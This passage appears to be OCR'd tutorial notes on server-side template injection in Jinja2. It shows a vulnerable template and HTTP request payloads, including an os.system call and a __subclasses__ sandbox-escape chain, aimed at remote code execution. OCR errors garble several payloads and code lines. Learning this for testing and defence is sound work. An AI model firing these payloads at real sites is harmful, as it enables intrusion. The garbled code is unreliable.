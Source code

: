 ### **Escalation**
Most of the times you can just use maths to prove that you can do injection (like above), but sometimes people will PoC of you doing actual serious damage. Your method of escalation depends on the target engine and Programming Language used in it. We will only go through Jinja2, because author of book only provides information about exploiting this engine and because I want to go to sleep today.

How can we make RCE in the previously discussed example?
```
from jinja2 import Template
tmpl = Template(" 
<html><h1>The user's name is: " + user input + "«/hi»«/html»")
print(tmpl.render())
```
We can use command line in python by using:
``os.system('command')
But if you will provide this as an input you will get an error in return, cause there is no 'os' defined in the template environment. We can always try to import the module. There are three ways to import modules.
``import Module
``from Module import *
``_import_('module')
So we can try:
```
GET /display_name?name={{os.system('1s')}} 
Host: example.com
```
And we will get an error:
``jinja2.exceptions.UndefinedError: 'os' is undefined
This happens because you can't import modules in Jinja templates. Almost always template engines will block usage of dangerous functions such as import or it will have allowlist of functions which can be executed. We have to escape the sandbox.

### **ESCAPING THE SANDBOX**
We have to use default python functions to escape. Many of those default functions is integrated into part of Pythons object class, which means that you can just create object and use them as that object methods.
For example, the following GET request contains Python code that lists the Python classes available:
```
GET /display name?name-"(([[]._class_._bases_[0]._subclasses_()}}"
Host: example.com
```
What happened here?
First we create empty list and we refer to its attribute class, which refers as to list class. Next we use base attribute to refer to base classes of list. They return as a tuple and we try to access first one of them by using index 0. This refers us to an object and then we try to refer to its subclasses.

When we sent this payload we will get something like that in return:
```
[<class 'type'», «class 'weakref'», «class 'weakcallableproxy'», «class ‘weakproxy'>, «class 'int'>, «class 'bytearray'>, «class 'bytes'», «class 'list'>, «class 'NoneType'», «class 'NotImplementedType'>, <class 'traceback'», «class 'super'», «class 'range'>, «class 'dict'>, «class 'dict keys'>, «class 'dict values'», «class 'dict items'», «class 'dict reverse keyiterator'>, «class 'dict reversevalueiterator'>, «class 'dict reverseitem iterator'», «class 'odict iterator'», «class 'set'>, «class 'str'>, <class 'slice'», «class 'staticmethod'>, «class 'complex'», «class 'float'», <class 'frozenset'>, «class 'property'>, «class 'managedbuffer'», <class ‘memory view'>, «class 'tuple'>, «class 'enumerate'>, «class 'reversed'>, <class 'stderrprinter'>, «class 'code'>, «class 'frame'», «class 'builtin function | or method'», «class 'method'», «class 'function'>...]
```
The import function, which can be used to import modules, is one of Python’s built-in functions. But since Jinja2 is blocking its direct access, you will need to access it via the builtins module. This module provides direct access to all of Python's builtin classes and functions. Most Python modules have builtins as an attribute that refers to the built-in module, so you can recover the builtins module by referring to the builtins attribute.
